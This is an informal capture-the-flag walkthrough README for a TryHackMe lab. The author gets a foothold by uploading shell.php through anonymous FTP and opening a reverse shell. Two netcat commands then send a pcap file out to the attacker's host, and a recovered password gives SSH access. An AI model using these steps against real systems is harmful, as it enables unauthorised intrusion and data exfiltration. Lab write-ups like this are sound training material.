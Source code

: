 ok so my old readme got deleted so this is gonna be a little bit of a lazy readme LETS GO

1.) We have been asked by the tompany to perform a penetration test on their system so let's go and nmap scan wahoooo

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/bf83bffc-d432-42bb-9135-3a8d4defbc4f)

   - We found http, ssh, and ftp open with an anonymous ftp login allowed so let's check that out
   - We can login to ftp as anonymous and retrieve all the files found by doing the following below
   - ![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/c6696ef3-ffa5-4b10-b28d-3138ac1aa1be)
   - After opening the notice.txt file we foound we found a username Maya
     
2.) Lets find hidden directories of the http server using gobuster

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/03d350c0-7c11-4896-ab42-2aef613e3765)

  - We found the /files directory, let's check it out
  - 
![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/90a7fff2-f131-4ade-9fb8-55386ad6fa11)

   - This looks just like the ftp folder we found earlier, cause it is!
   - This means we might be able to upload a file to the directory via ftp, which could lead to a reverseshell vulnerability
     
![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/24fa843b-baa7-42aa-8235-d316506e8fec)

   - Sweet, we can upload files, let's reverseshell
   - after we run put shell.php we can now run a netcat listener to create a connection
3.) Lets reverse shell

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/7b6aca87-ea5a-4438-bbd4-0e8007ca0279)

   - We opened a netcat listening and got a connection by clicking on the shell.php file!

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/03f2ae19-dde7-41bb-9d83-dd480a2e9ddf)

   - Listing the files showed us the answer to the first questions!

4.) Lets ls and see what we can find

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/d39aa3af-da3c-476a-82e2-5cbc808f66ad)

   - We found a suspicious file which can be opened in wireshark
   - To transfer the file I created another netcat listening instance pointed to the file I wanted by typing nc -l -p (port) > suspicious.pcapng
   - I then ran nc (host ip) (port) < suspicious.pcapng to transfer the file
5.) Let's open it in wireshark now

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/7631697f-fecc-428e-b27a-16a6fd59bec1)

   - We see a lot of traffic, let's open one of these packets and sniff through the traffic to see what we can find

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/65fd8229-4247-41e8-80e4-3d562d4ef524)

   - Looks like lennie was trying to privelage escalate and we also found the password

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/95e6bd5c-a019-49a1-8b63-8dbd359115c4)

   - we can now ssh into the ip using lennie as the username and our found password
   - we found the user.txt flag!







